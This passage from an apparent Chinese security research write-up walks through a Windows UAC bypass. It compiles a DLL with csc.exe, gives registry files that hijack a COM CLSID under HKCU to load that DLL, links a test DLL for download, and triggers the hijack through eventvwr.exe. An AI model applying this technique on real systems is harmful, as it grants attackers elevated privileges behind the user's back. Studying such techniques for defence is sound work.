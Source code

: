 使用csc.exe编译dll：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /t:library TestDotNet.cs
```

**注：**

dll要使用.net 2.0编译


### 3、{0A29FF9E-7F9C-4437-8B11-F424491E3931}

注册表文件如下：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]
@="NDP SymBinder"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InprocServer32]
@="C:\\Windows\\System32\\mscoree.dll"
"ThreadingModel"="Both"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InprocServer32\4.0.30319]
@="4.0.30319"
"ImplementedInThisVersion"=""

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ProgID]
@="CorSymBinder_SxS"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\Server]
@="C:\\Temp\\test_unmanaged.dll"
```

测试系统为Win7和Win10，未成功，所以我对该脚本作了修改，修改后的文件如下：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}]
@="NDP SymBinder"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InprocServer32]
@="C:\\Temp\\test_unmanaged.dll"
"ThreadingModel"="Both"
```

此处的test_unmanaged.dll同1和2的不同，这里需要一个标准dll，实现dll劫持，dll下载地址;

https://raw.githubusercontent.com/3gstudent/test/master/calcexit.dll

执行以下代码均能触发dll劫持，实现UAC绕过：

```
C:\Windows\System32\eventvwr.exe
```
